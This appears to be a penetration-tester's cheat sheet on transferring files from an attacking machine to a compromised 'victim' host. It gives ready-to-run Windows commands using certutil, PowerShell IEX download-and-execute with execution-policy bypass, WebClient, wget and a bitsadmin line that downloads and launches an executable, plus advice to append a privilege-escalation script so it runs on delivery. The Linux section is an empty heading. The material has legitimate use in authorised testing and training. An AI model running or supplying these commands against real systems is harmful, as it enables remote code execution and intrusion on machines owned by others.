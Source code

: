 #  Transferring Files

In many engagements you will need to be able to copy files between the victim machine and attacking machine.  This section outlines a number of common methods for transferring files for both Windows and Linux.  Note that this will usually rely on having the necessary files hosted on a webserver. This can be achieved by using python3 to create a temporary web server to host files on the attacker machine:
`python3 -m http.server 80`

## Windows 

### CertUtil.exe

CertUtil can be used to download files from a web server using the following command:

`certutil -urlcache -split -f "http://ip-addr:port/NameOfHostedFile" <output-file-name>`

### Powershell

#### Download and Execute Script

Powershell can also be used to dowload and execute powershell scripts on a host:

`powershell IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

Powershell Download and Execute script with execution bypass and Powershell Version 2:

`powershell -Version 2 -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://<IPAddress>:<Port>/PowershellScript.ps1')`

To execute the payload upon delivery add the command you want Powershell to run at the end of the script.  A good example of this is using the PowerUp.ps1 privilege escalation script.  The command Invoke-AllChecks can be added to the end of the script so that it is ran as soon as it is collected from the attackers machine.  If you only want to download the script then execute later the `powershell Import-Module .\PowershellScript.ps1` command can be used.  This will then allow you to run the commands within the script manaully.

#### Download File

Using powershell to download a file:

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip_address>:<port>/<fileName.exe','<outputFilename.exe')"

In Powershell version 3 and above, wget can also be used to download a file:

`wget "http://<ip address>:<port>/FileToDownload.exe" -OutFile SomeOutputFileName.exe `



### BITS Admin

BITSAdmin can also be used to transfer files to a host with the following command: 

`cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://<ip address>:<port>/FileToTransfer.exe C:\Path\ExeOutputName.exe & start ExeOutputName.exe"`


## Linux
